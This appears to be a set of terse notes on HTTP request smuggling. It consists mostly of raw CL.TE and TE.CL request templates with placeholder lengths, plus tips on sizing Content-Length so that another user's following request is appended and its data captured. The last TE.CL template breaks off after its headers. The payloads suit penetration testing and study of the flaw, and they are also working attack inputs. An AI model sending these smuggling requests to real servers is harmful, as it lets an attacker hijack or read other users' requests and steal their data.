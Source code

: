 ![](/Images/requestSmugglingTests.png)
- CL.TE - Using custom header to append the next request to it
```html
POST / HTTP/1.1\r\n
Host: endpoint.com\r\n
Content-type: application/x-www-form-urlencoded\r\n
Content-Length: length-here\r\n
Transfer-Encoding: chunked\r\n
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /test/endpoint HTTP/1.1\r\n
Custom-test-header: x
```
- CL.TE - Using POST body parameter to append the next request to it: Ensure that the second `content-length` is long enough to append the content of the next request
- How much content of the next request should be appended? At least one byte; however, depending on whether or not data is trying to be extracted, the content-length should be set longer
- CL.TE - Sending a secondary request
```html
POST / HTTP/1.1\r\n
Host: endpoint.com\r\n
Content-type: application/x-www-form-urlencoded\r\n
Content-Length: length-on-auto-update\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
POST /test/endpoint HTTP/1.1\r\n
Host: localhost\r\n
Content-type: application/x-www-form-urlencoded\r\n
Content-Length: set-length-long-enough\r\n
\r\n
search=foobar
```
- TE.CL - Ensure the second content-length is long enough to add bytes from the next request
```html
POST / HTTP/1.1\r\n
Host: endpoint.com\r\n
Content-type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
```